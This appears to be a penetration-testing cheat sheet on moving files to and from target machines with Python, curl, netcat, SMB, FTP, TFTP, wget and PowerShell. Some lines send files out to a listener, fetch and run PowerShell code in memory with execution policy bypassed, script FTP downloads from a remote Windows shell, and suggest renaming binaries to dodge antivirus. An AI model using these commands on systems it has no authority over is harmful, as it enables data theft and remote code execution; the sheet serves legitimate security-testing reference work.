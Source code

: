 # General - File Transfer

### Server side

The following tools can be used to host files server side.

###### Python - Web Server

```python
python -m SimpleHTTPServer <PORT>
```

###### curl

```bash
# Needs the receiver to be listening
curl -F 'data=@<FILE>' http://<IP>:<PORT>
```

###### nc

```bash
# Needs the receiver to be listening
nc -w 3 <IP> <PORT> < <FILE>
Get-Content <FILE> | ./nc.exe -w 3 <IP> <PORT>
```

###### impacket-smbserver - SMB share

```bash
impacket-smbserver <SHARE_NAME> <SHARE_PATH>
impacket-smbserver <SHARE_NAME> `pwd`
```

###### FTP

```
# pip install pyftpdlib
python -m pyftpdlib -w -p <PORT>
```

###### TFTP

```
# Metasploit server module
use auxiliary/server/tftp

# Unix daemon
mkdir <TFTPFOLDER>
atftpd --daemon --port <PORT> <TFTPFOLDER>
```

### Client side

The following tools can be used to download file from a server client side.  

File transfer is easier on Linux machines as wget, curl or netcat are often packaged
with the operating system distribution.  

On Windows machines, the process is usually not as straight forward.

###### wget

```bash
wget http:/<IP>:<PORT>/<FILE>
wget -O file http://<IP>:<PORT>t/<FILE>
wget -r --no-parent -nH --reject "index.html*" http://<IP>:<PORT>/<DIR>
```

###### curl

```bash
curl http://<IP>:<PORT>/<FILE> > out.file
curl -O http://<IP>:<PORT>/<FILE>
```

###### netcat

```bash
nc -l -p <PORT> > out.file
nc -l -p <PORT> | tee out.file
```

###### Python

```python
python -c "from urllib import urlretrieve; urlretrieve('http://<IP>:<PORT>/<FILE>', '<OUT.FILE>')"
python3 -c "from urllib.request import urlretrieve; urlretrieve('http://<IP>:<PORT>/<FILE>', 'out.file')"
```

###### Powershell

```powershell
Invoke-WebRequest -Uri <URL> -OutFile <FILE>
(New-Object Net.WebClient).DownloadFile('http://<IP>:<PORT>/<FILE>', '<FULLPATH\FILENAME>');

# Load in memory and execute
powershell -nop -exec bypass -c "IEX (New-Object Net.WebClient).DownloadString('http://<IP>:<PORT>/<FILE>'); Invoke-ImportedCMD"
echo IEX (New-Object Net.WebClient).DownloadString('http://<IP>:<PORT>/<FILE>') | powershell -nop -exec bypass -

# Connect to a SMB share
New-PSDrive -Name "LocalMountedFolder" -PSProvider "FileSystem" -Root "\\<IP>\<SHARE>"; cd LocalMountedFolder:
```

###### FTP

To download file interactively:

```
ftp -A <SERVERIP>
```

Paste the following commands into a remote Windows shell and download files over FTP non-interactively (replace <USERNAME> by anonymous if using anonymous login):

```
echo open <IP> <PORT> > ftp.txt
echo USER <USERNAME> >> ftp.txt
echo <PASSWORD> >> ftp.txt
echo bin >> ftp.txt
echo GET <FILENAME> >> ftp.txt
echo bye >> ftp.txt
ftp -v -n -s:ftp.txt
```

In case of AV errors while trying to download a binary, omit the exe extension.  

###### TFTP

TFTP is a simple protocol for transferring files, implemented on top of the UDP/IP
protocols. TFTP was designed to be small and easy to implement, and therefore it
lacks most of the advanced features offered by more robust file transfer protocols.
TFTP only reads and writes files from or to a remote server. It cannot list, delete,
or rename files or directories and it has no provisions for user authentication.  

Windows operating systems up to Windows XP and 2003 contain a TFTP
client, by default. In Windows 7, 2008, and above, this tool needs to be explicitly added,
during installation.

```
tftp -i <SERVERIP> GET <FILENAME>
```
